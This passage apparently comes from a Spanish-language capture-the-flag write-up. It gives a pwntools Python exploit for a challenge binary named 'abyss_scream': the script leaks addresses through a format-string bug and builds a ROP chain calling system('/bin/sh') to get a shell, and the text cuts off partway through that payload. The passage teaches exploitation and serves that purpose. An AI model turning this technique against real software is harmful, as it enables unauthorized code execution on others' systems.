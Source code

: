 ## Exploit

Teniendo todo en cuenta, sacamos los gadgets necesarios con *ropper* y podemos hacernos un script en *python* (créditos al final):

```python
#!/bin/python3
from pwn import *

exe = './abyss_scream'
elf = context.binary = ELF(exe, checksec=False)

def start():

    if args.REMOTE:
        return remote("chall.polygl0ts.ch", 9001)
    else:
        return process(exe)

padding = 280

def send_payload(payload, name=b"bytebl33d"):
  p.recvuntil(b"input: ")
  p.sendline(b"x")
  p.recvuntil(b"name: ")
  p.sendline(name)
  p.recvuntil(b"message: ")
  p.sendline(payload)

def get_leak_address(index, name=b"/bin/sh\x00"):
   send_payload("%{}$p".format(index), name)
   p.recvuntil(b"Your message:\n")
   data = p.recvuntil(b"\n")
   return int(data, 16)

print("main (symbols) @", context.binary.symbols["main"])
main_addr = get_leak_address(43) - 128
info(f'main_addr @ {hex(main_addr)}')

elf.address = main_addr - context.binary.symbols["main"]
info(f'PIE base @ {hex(elf.address)}')

# pop_rdi gadget
pop_rdi = elf.address + 0x13b5
info(f'pop_rdi @ {hex(pop_rdi)}')

# ret gadget
ret = elf.address + 0x101a
info(f'ret @ {hex(ret)}')

# system call address
system = elf.plt.system
info(f'system @ {hex(system)}')

# binsh address 
bin_sh = get_leak_address(41)
print("/bin/sh @", hex(bin_sh))

payload = flat({
   padding: [
      ret,
      pop_rdi,
      bin_sh,
      system
```